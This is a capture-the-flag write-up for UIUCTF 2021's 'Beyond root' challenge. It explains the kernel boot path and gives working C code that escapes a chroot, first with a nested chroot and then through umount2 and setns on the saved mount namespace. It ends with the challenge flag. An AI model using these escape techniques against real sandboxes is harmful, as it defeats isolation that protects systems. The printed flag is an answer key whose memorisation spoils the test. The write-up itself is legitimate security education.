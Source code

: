 ```yaml
---
layout: post
title:  "Beyond root (UIUCTF 2021)"
date:   2021-08-09
categories: writeups
author: Joey Geralnik
tags: linux, kernel, namespace, sandbox
---
```

In this challenge we are given shell access to a system and need to access the flag which is in initrd. There are lots of moving components so making sense of what exactly is happening takes some time.

We start with a Dockerfile where the kernel was compiled:

```
RUN mkdir /initrd
RUN mkdir /initrd/dev /initrd/root /initrd/bin

COPY --from=busybox-grab /bin/busybox /initrd/bin/

COPY src/flag /initrd/
```

Inside of kernel/kconfig we find

```
CONFIG_INITRAMFS_SOURCE="/initrd"
```

So the /initrd folder is copied into the kernel image and mounted when the kernel boots.

Our docker then calls `socat TCP-LISTEN:1337,reuseaddr,fork EXEC:'kctf_pow nsjail --config /home/user/nsjail.cfg -- /home/user/qemud /home/user/bzImage'`
This is more noise than important information, but confused me for a while during the challenge because we are running qemu via nsjail inside of a docker. We can ignore all of the extra layers and just focus on the image running inside of qemu.


## Why no panic?
Note that there is no `init` binary inside of the initramfs. Why doesn't this panic?

If we look at the [kernel_init](https://elixir.bootlin.com/linux/v5.12.14/source/init/main.c#L1424) function in the kernel we can see that it first calls `kernel_init_freeable()`. This [checks](https://elixir.bootlin.com/linux/v5.12.14/source/init/main.c#L1547) if we have a `/init` binary, and if not calls `prepare_namespace()`.

`prepare_namespace` mounts the root filesystem with [do_mount_root](https://elixir.bootlin.com/linux/v5.12.14/source/init/do_mounts.c#L374) which does

```c
ret = init_mount(name, "/root", fs, flags, data_page);
if (ret)
    goto out;

init_chdir("/root");
```

and then [calls](https://elixir.bootlin.com/linux/v5.12.14/source/init/do_mounts.c#L616):

```c
init_mount(".", "/", NULL, MS_MOVE, NULL);
init_chroot(".");
```

So, to summarize the flow - if there is no /init binary, we mount the root filesystem to /root, chdir to /root, mount --move . /, and chroot .

## Escaping chroot
If not for the mount --move we would just have to escape a chroot. Escaping chroot is usually pretty easy.

Let's say we have a folder /root that we chroot into. We can create a new chroot while keeping a reference to our root directory, and then go back up a level:

```
/ # mkdir /root
/ # cp -r /bin/ /usr /root
/ # chroot /root/
/ # ls
bin  usr

/ # mkdir /inner
/ # cp -r bin usr inner
/ # mychroot /inner/
sh: getcwd: No such file or directory
(unknown) # ls -l /
total 8
drwxr-xr-x    2 0        0             4096 Aug  9 12:37 bin
drwxr-xr-x    5 0        0             4096 Aug  9 12:37 usr
sh: getcwd: No such file or directory
(unknown) # cd ..
sh: getcwd: No such file or directory
(unknown) # ls
bin         etc         lost+found  root        sys         usr
dev         linuxrc     proc        sbin        tmp
```

Here mychroot is just a small binary I compiled since busybox's chroot always cd's into the chroot directory first:

```c
int main(int argc, char* argv[]) {
    chroot(argv[1]);
    execl("/bin/sh", "/bin/sh", NULL);
}
```

Unfortunately, there is no way to access the original initrd filesystem because even outside of the chroot the rootfs is still mounted on /

## Umount root
We can also try to umount / with `umount -l /`. 
This works, but the system ends up in a weird state where / is still the root filesystem, all other mounts are umounted (/proc, /dev), and we can no longer mount new filesystems (such as remounting /proc). We still don't have access to the underneath filesystem because we are still inside the chroot.

Even combining this with the previous trick doesn't work because going up a directory will never get us to the initramfs.

## Solution
I was stuck here for a while until I came upon a [stack overflow post](https://unix.stackexchange.com/questions/583138/why-does-initramfs-need-to-overmount-rootfs-with-the-new-root) with the solution.

After umounting / the root inside of our namespace (outside of the chroot) is the initrd. If we open a handle to /proc/self/ns/mnt (before we screw up the /proc mount) then we can use setns to reenter our namespace and access the root file system (effectively escaping the chroot).

Here's the code:

```c
#define _GNU_SOURCE

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mount.h>
#include <unistd.h>
#include <fcntl.h>
#include <sched.h>
#include <stdio.h>

int main() {
    int ns = open("/proc/self/ns/mnt", O_RDONLY);
    if (ns == -1) {
        perror("open");
        goto out;
    }

    if (umount2("/", MNT_DETACH)) {
        perror("umount2");
        goto out;
    }

    if (setns(ns, CLONE_NEWNS)) {
        perror("setns");
        goto out;
    }

    char *a[] = { "/bin/busybox", "sh", NULL };
    char *e[] = { NULL };
    execve(a[0], a, e);

    perror("execve");

out:
    return 1;
}
```

We upload it to the server and give it a go:

```
/ # chmod +x win
/ # ./win
/ # ./bin/busybox ls
bin   dev   flag  root
/ # ./bin/busybox cat flag
uiuctf{oh_I_have_root_oh_wait_its_outside_root_6da726b5}
```

